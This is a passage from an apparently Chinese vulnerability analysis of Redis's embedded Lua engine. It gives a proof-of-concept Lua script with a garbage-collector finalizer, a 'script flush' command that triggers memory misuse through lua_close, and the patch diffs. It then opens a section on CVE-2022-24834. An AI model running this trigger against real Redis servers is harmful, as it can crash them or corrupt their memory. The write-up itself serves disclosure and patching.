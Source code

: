 2.通过SCRIPT FLUSH命令调用lua_close。  
  
  
一个完整的过程如下：  
  
  
编写lua脚本并通过EVAL执行：  
  
  
```
// Uselocal udata = newproxy(true);// 配置finalizer和GC状态local udata = newproxy(true)getmetatable(newproxy(true)).__gc = function()collectgarbage("restart") collectgarbage("step")     redis.log(redis.LOG_WARNING,getmetatable(udata)[1]) endcollectgarbage("restart");
```  
  
  
  
调用lua_close：  
  
  
```
// Free127.0.0.1:6379> script flush
```  
  
##   
## 补丁  
  
在各个script flush命令中添加一行代码，在调用lua_close之前恢复GC状态为"collect"。  
  
  
```
src/eval.c@@ -266,6 +266,7 @@ void freeLuaScriptsSync(dict *lua_scripts, list *lua_scripts_lru_list, lua_State    unsigned int lua_tcache = (unsigned int)(uintptr_t)ud;#endif    # 补丁+   lua_gc(lua, LUA_GCCOLLECT, 0);    lua_close(lua);src/function_lua.c@@ -198,6 +198,7 @@ static void luaEngineFreeCtx(void *engine_ctx) {    unsigned int lua_tcache = (unsigned int)(uintptr_t)ud;#endif    # 补丁+   lua_gc(lua_engine_ctx->lua, LUA_GCCOLLECT, 0);    lua_close(lua_engine_ctx->lua);    zfree(lua_engine_ctx);
```  
  
#   
# CVE-2022-24834 堆溢出，可能导致RCE  
  
披露时间：2023年7月  
  
复现版本：7.0.11  
  
补丁版本：7.0.12  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/1UG7KPNHN8Gs47fyfibbSicMKN9kQXShNXupVuoTib1mUhibqTGMaoYbGm8iashT96RvWGrOuAr7cG48ibqkXRw7nuFQ/640?wx_fmt=other&from=appmsg "")  
##   
## 前置知识  
  
前面分析过的CVE-2024-31449发生在lua_bit，CVE-2022-24834则发生在lua_cjson和lua_cmsgpack中。  
  
  
1.lua_cjson是对cjson的lua实现，通过cjson.encode和cjson.decode两个功能函数来序列化和反序列化Lua对象。  
  
  
2.lua_cmsgpack是一个实现在 Lua 中的 MessagePack 库，类似于 json，但速度更快且占用空间更小。通过cmsgpack.pack和cmsgpack.unpack两个功能函数来序列化和反序列化 Lua 对象。  
  